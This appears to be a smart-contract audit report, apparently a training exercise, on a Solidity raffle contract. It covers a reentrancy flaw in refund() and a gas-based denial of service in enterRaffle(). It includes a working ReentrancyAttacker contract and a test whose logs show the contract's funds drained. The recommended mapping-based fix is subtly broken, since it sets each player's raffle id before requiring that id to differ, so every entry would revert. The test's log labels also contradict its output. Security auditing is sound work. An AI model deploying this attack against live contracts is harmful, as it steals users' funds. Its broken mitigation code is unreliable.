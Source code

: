 # High
### [H-#] Reentrancy attack vulnerability found in `PuppyRaffle::refund` allows entrants to drain contract balance

**Description:** The `PuppyRaffle::refund` function does not follow the best practices of [Checks-Effects-Interactions (CEI)](https://www.cyfrin.io/glossary/reentrancy-attack). 

As a result, entrants are able repeatedly call for refunds before the contract can update the state by performing an external call `sendValue` before updating the contract state. 

This creates a reentrancy vulnerability where a malicious contract could repeatedly call refund and drain the contract's funds before the player's address is cleared from the `players` array.

```js
function refund(uint256 playerIndex) public {    
    address playerAddress = players[playerIndex];
    require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
    require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");
    
@>  payable(msg.sender).sendValue(entranceFee);

@>  players[playerIndex] = address(0);
    emit RaffleRefunded(playerAddress);
}
```

**Impact:** An attacker could drain and steal all fees paid by the raffle entrants.

**Proof of Concept:** An attacker could create a contract that:

1. Enters the raffle

2. Calls refund from the contract's receive/fallback function

2. Re-enters the refund function multiple times before players[playerIndex] is set to address(0)

This could drain contract funds by obtaining multiple refunds for a single entrance fee.

We've tested this with the following outcome:

````
**OUTPUT:**
Ran 1 test for test/PuppyRaffleTest.t.sol:PuppyRaffleTest
[PASS] test_ReentrancyRefund() (gas: 636687)

Logs: 
- starting attacker contract balance:  0

- starting contract balance:  4000000000000000000

- attacker contract balance after attack:  5000000000000000000

- contract balance after attack:  0
````

**Proof of Code:**
<details>
<summary>PoC</summary>
Add this below your test suite in `PuppyRaffleTest.sol` file

```js
/**
 * @title ReentrancyAttacker
 * @dev A malicious contract demonstrating a reentrancy attack on PuppyRaffle's refund function
 */
contract ReentrancyAttacker {
    // Target contract to attack
    PuppyRaffle public immutable puppyRaffle;
    // Stores the entrance fee amount
    uint256 public immutable entranceFee;
    // Tracks the attacker's player index in the raffle
    uint256 public attackerIndex;

    /**
     * @dev Initializes the attacker contract with the target PuppyRaffle
     * @param _puppyRaffle The vulnerable PuppyRaffle contract address
     */
    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    /**
     * @dev Initiates the attack by entering the raffle and immediately requesting a refund
     * @notice The attack begins when this contract's fallback/receive functions are triggered
     */
    function attack() external payable {
        // Enter the raffle with this contract as the only player
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);

        // Store our player index for subsequent refund calls
        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        
        // Trigger the initial refund (will re-enter through fallback)
        puppyRaffle.refund(attackerIndex);
    }

    /**
     * @dev Internal function to repeatedly call refund while funds remain
     * @notice This is the core of the reentrancy attack
     */
    function _stealMoney() internal {
        // Continue attacking while the raffle has funds
        if (address(puppyRaffle).balance >= entranceFee) {
            puppyRaffle.refund(attackerIndex);
        }
    }

    /**
     * @dev Fallback function triggered when receiving ETH without data
     * @notice This enables reentrancy during the refund process
     */
    fallback() external payable {
        _stealMoney();
    }

    /**
     * @dev Receive function triggered when receiving plain ETH
     * @notice This enables reentrancy during the refund process
     */
    receive() external payable {
        _stealMoney();
    }
}
```

Add this inside your test suite in `PuppyRaffleTest.sol` file

```js
function test_ReentrancyRefund() public {
    // Setup: Create 4 legitimate players
    address[] memory players = new address[](4);
    players[0] = playerOne;
    players[1] = playerTwo;
    players[2] = playerThree;
    players[3] = playerFour;
    puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

    // Deploy attacker contract and fund the attack wallet
    ReentrancyAttacker attackerContract = new ReentrancyAttacker(puppyRaffle);
    address attackUser = makeAddr("attackUser");
    vm.deal(attackUser, 1 ether);

    // Record pre-attack balances for comparison
    uint256 startingAttackerContractBalance = address(attackerContract).balance;
    uint256 startingContractBalance = address(puppyRaffle).balance;

    // Execute attack (reentrancy exploit)
    vm.prank(attackUser);
    attackerContract.attack{value: entranceFee}();

    // Log results for debugging
    console.log("starting attacker contract balance: ", startingAttackerContractBalance);
    console.log("starting contract balance: ", startingContractBalance);
    console.log("attacker contract balance after attack: ", address(attackerContract).balance);
    console.log("contract balance after attack: ", address(puppyRaffle).balance);
}
```

</details>

#

**Recommended Mitigation:** To fix this, we should have the PuppyRaffle::refund function update the players array before making the external call. Additionally, we should move the event emission up as well.

```diff
function refund(uint256 playerIndex) public {
    address playerAddress = players[playerIndex];
    require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
    require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

+   players[playerIndex] = address(0);
+   emit RaffleRefunded(playerAddress);

    payable(msg.sender).sendValue(entranceFee);

-   players[playerIndex] = address(0);
-   emit RaffleRefunded(playerAddress);
}
```

See also [OpenZeppelin ReentrancyGuard](https://docs.openzeppelin.com/contracts/4.x/api/security#ReentrancyGuard)

#

# Medium
### [M-#] Looping through players array to check for duplicates in `PuppyRaffle::enterRaffle` is a potential denial of service (DoS) attack. It leads to incrementing gas costs for future entrants.

**Description:** The `PuppyRaffle::enterRaffle` function loops through the `players` array to check for duplicates. However, teh longer the array gets, the more checks have to be made. This results in significantly higher gas costs for those who enter the raffle later. Every additional address is an additional check that the loop will have to make. 

```js
// @audit DoS Attack
@>   for (uint256 i = 0; i < players.length - 1; i++) {
        for (uint256 j = i + 1; j < players.length; j++) {
            require(
                players[i] != players[j],
                "PuppyRaffle: Duplicate player"
            );
        }
    }
```

**Impact:** Gas cost for raffle entrants will greatly increase as more players enter the raffle, discouraging later entrants and causing a rush at start of a raffle. 

An attacker could make the `PuppyRaffle::enterRaffle` arry so big that on one else could enter, thus guaranteeing themselves the winner. 

**Proof of Concept:** If we have 2 sets of 100 players enter, the gas costs will be:
- 1st set:  6,503,275 gas
- 2nd set: 18,995,515 gas

The result shows the it is over 3x more expensive for entrants in the second round

<details>
<summary>PoC</summary>
Place this test into `PuppyRaffleTest.t.sol`

```js
function test_denialOfService() public {    
    vm.txGasPrice(1);

    // Let's enter 100 players
    uint256 playersNum = 100;
    address[] memory players = new address[](playersNum);
    for (uint256 i = 0; i < playersNum; i++) {
        players[i] = address(i);
    }
    // check how much gas it takes to enter round of 100 players
    uint256 gasBefore = gasleft();
    puppyRaffle.enterRaffle{value: entranceFee * players.length}(players);
    uint256 gasAfter = gasleft();
    uint256 gasUsedFirst = (gasBefore - gasAfter) * tx.gasprice;
    console.log("Gas used for 1000 players: ", gasUsedFirst);

    // a second round
    address[] memory playersTwo = new address[](playersNum);
    for (uint256 i = 0; i < playersNum; i++) {
        playersTwo[i] = address(i + playersNum);
    }
    // check how much gas it takes to enter round of 100 players
    uint256 gasBeforeSecond = gasleft();
    puppyRaffle.enterRaffle{value: entranceFee * players.length}(
        playersTwo
    );
    uint256 gasAfterSecond = gasleft();
    uint256 gasUsedSecond = (gasBeforeSecond - gasAfterSecond) *
        tx.gasprice;
    console.log("Gas used for second round 1000 players: ", gasUsedSecond);

    assert(gasUsedFirst < gasUsedSecond);
}
```
 
**OUTPUT:**
Ran 1 test for test/PuppyRaffleTest.t.sol:PuppyRaffleTest
[PASS] test_denialOfService() (gas: 25536100)

    Logs:
    Gas used for 1st 100 players:  6503275.
    Gas used for 2nd 100 players:  18995515.

</details>

#

**Recommended Mitigation:** Here are a few recomendations.
1. Consider allowing duplicates. - Since users can make new wallet addresses, the duplicate check doesn't fully prevent players from entering multiple times. It only blocks same wallet addresses.
2. Consider using a mapping to check for duplicates. This would allow constant time lookup of whether a user has already entered.

```diff
+    mapping(address => uint256) public addressToRaffleId;
+    uint256 public raffleId = 0;
    .
    .
    .
    function enterRaffle(address[] memory newPlayers) public payable {
        require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");
        for (uint256 i = 0; i < newPlayers.length; i++) {
            players.push(newPlayers[i]);
+            addressToRaffleId[newPlayers[i]] = raffleId;            
        }

-        // Check for duplicates
+       // Check for duplicates only from the new players
+       for (uint256 i = 0; i < newPlayers.length; i++) {
+          require(addressToRaffleId[newPlayers[i]] != raffleId, "PuppyRaffle: Duplicate player");
+       }    
-        for (uint256 i = 0; i < players.length; i++) {
-            for (uint256 j = i + 1; j < players.length; j++) {
-                require(players[i] != players[j], "PuppyRaffle: Duplicate player");
-            }
-        }
        emit RaffleEnter(newPlayers);
    }
.
.
.
    function selectWinner() external {
+       raffleId = raffleId + 1;
        require(block.timestamp >= raffleStartTime + raffleDuration, "PuppyRaffle: Raffle not over");
```

**Alternatively**, you could use [OpenZeppelin's `EnumerableSet` library.](https://docs.openzeppelin.com/contracts/4.x/api/utils#EnumerableSet)   